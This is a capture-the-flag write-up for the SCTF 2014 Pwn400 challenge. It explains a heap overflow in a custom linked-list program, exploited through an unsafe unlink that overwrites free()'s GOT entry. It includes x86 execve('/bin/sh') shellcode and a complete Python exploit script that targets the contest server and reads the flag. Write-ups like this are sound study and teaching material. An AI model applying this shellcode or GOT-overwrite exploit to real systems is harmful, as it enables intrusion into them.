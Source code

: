 ```yaml
---
title: SCTF 2014 -- Pwn400
comments: true
permalink: "/:title/"
tags:
- Pwnable
- XCTF
- SCTF
- Python
- CTF
- heap
- shellcode
categories:
- write-ups
date: '2014-12-08 14:54:00 +0000'
---
```


Similar with Pwn200, Pwn400 gave us a binary file, but no libc.so. Open it with IDA Pro and analyze it, we found some information:
<!-- more -->

First, there's a data structure ( let's call it **node** ) which look like this:

```c
struct node{
  node *this; // the address of this node
  node *prev; // the address of the previous node
  node *next; // the address of the next node
  char title[64];
  char type[32];
  char content[256];
};

```
In this program, we're allow to:
1. New a node
2. Show a node's address ( yep, no need to leak it! )
3. Edit a node's content
4. Delete a node (by giving its address)

Notice that **we can ovewrite a node's data by overflowing its previous node's content**. Moreover, after checking the function of deleting a node, we found the following code:

``` c 
if ( *(_DWORD *)ptr == ptr )
{
    if ( *(_DWORD *)a1 == ptr )
    {
        *(_DWORD *)a1 = *(_DWORD *)(*(_DWORD *)a1 + 8);
    }
    else
    {
        if ( *(_DWORD *)(ptr + 8) )
        {
            /* the unlink vulnerability */
            v1 = *(_DWORD *)(ptr + 8);
            v2 = *(_DWORD *)(ptr + 4);
            *(_DWORD *)(v2 + 8) = v1;
            *(_DWORD *)(v1 + 4) = v2;
        }
        else
        {
            *(_DWORD *)(*(_DWORD *)(ptr + 4) + 8) = 0;
        }
    }
    write(1, "succeed!\n\n", 0xAu);
    free((void *)ptr);
}

```

The vulnerability's obvious: **Heap overflow**, except it use its own data structure.

Since it doesn't enable the DEP protection, we can store our shellcode in a known memory address (**which is, in this case, a node's content**), then exploit the heap overflow vulnerability, by overwriting `free()`'s GOT, let the function pointer point to our shellcode. 

For instance:
``` c
//free's GOT entry: 0x0804a450
v1 = node->next // 0x0804a44c, because 0x0804a44c+4 = 0x0804a450  
v2 = node->prev // shellcode's address
*(_DWORD *)(shellcode's address + 8) = 0x0804a44c ; //4 bytes of shellcode will be overwritten
*(_DWORD *)(0x0804a450) = shellcode's address; // overwrite free()'s GOT

```

Note that 4 bytes in shellcode will be overwritten, so we'll have to use `jmp relative` to skip those 4 bytes machine code. Here's my shellcode:

``` python
"\x90\x90\x90\x90\x90\x90"+ # NOP
"\xeb\x08"+ # skip 8 bytes
"AAAA"+ # overwritten part
"\x90"*10+ # NOP
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x59\x50\x5a\xb0\x0b\xcd\x80" # shell
```

So here's the exploitation:
1. New 3 nodes: node1, node2 & node3
2. Store the shellcode in node3's content
3. Get the address of node3 & node2, calculate the shellcode's address
4. Edit node1, overwrite node2's prev & next by overflowing node1's content
5. Delete node2, overwrite `free()`'s GOT,  execute the shellcode & capture the flag
    
Here's the python script. Due to the connection problem, it has to wait 1 second before it recieve server's response.

``` python
from socket import *
import time
import binascii

sock = socket(AF_INET, SOCK_STREAM)
sock.connect(("218.2.197.248", 10003))

shell = "\x90\x90\x90\x90\x90\x90"+"\xeb\x08"+"AAAA"+"\x90"*10+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x59\x50\x5a\xb0\x0b\xcd\x80"

print sock.recv(1024)

#insert node1
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)

#insert node2
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
print sock.recv(1024)

#insert node3
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send(shell+"\n") #write shellcode to node3's content
time.sleep(1)
print sock.recv(1024)

#show node 3 address
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("3\n")
time.sleep(1)
res = sock.recv(1024)
print res

#calculate shellcode's address
index = res.index("0x")
temp = res[index:index+10:]
shellcode_addr = int(temp, 16)+108
print "shellcode address: ", hex(shellcode_addr)
shellcode_addr_str = binascii.a2b_hex(hex(shellcode_addr)[2:10:].zfill(8))
print shellcode_addr_str

#show node 2 address
sock.send("3\n")
time.sleep(1)
print sock.recv(1024)
sock.send("2\n")
time.sleep(1)
res = sock.recv(1024)
print res

index = res.index("0x")
temp = res[index:index+10:]
address = int(temp, 16)
del_addr = hex(address)[2::]
print "node2 address:", del_addr
node2_addr_str = binascii.a2b_hex(hex(address)[2:10:].zfill(8))
print node2_addr_str 

#BBBB: offset
#free()'s GOT: 0x0804a450, we send 0x0804a44c
exploit = "A"*256+"BBBB"+node2_addr_str[::-1]+shellcode_addr_str[::-1]+"\x4c\xa4\x04\x08"

#edit node 1
sock.send("4\n")
time.sleep(1)
print sock.recv(1024)
sock.send("1\n")
time.sleep(1)
print sock.recv(1024)
sock.send(exploit+"\n") #overflow node1's content
time.sleep(1)
print sock.recv(1024)

#delete node 2
sock.send("5\n")
time.sleep(1)
print sock.recv(1024)
sock.send(del_addr+"\n")
time.sleep(1)
print sock.recv(1024)

sock.send('cat /home/pwn3/flag/flag\n') #capture the flag
time.sleep(1)
print sock.recv(1024)

sock.close()
```

The "BBBB" in the exploit is a 4 bytes data between each node. It actually is the meta data of a chunk. The `free()` function will check the meta data before it free the memory of a node. If the meta data isn't correct, the program will crash. But since we overwrite `free()`'s GOT, that meta data's no longer a problem.

flag: `SCTF{2318540E78446A0E84EF69685092F0C3}`
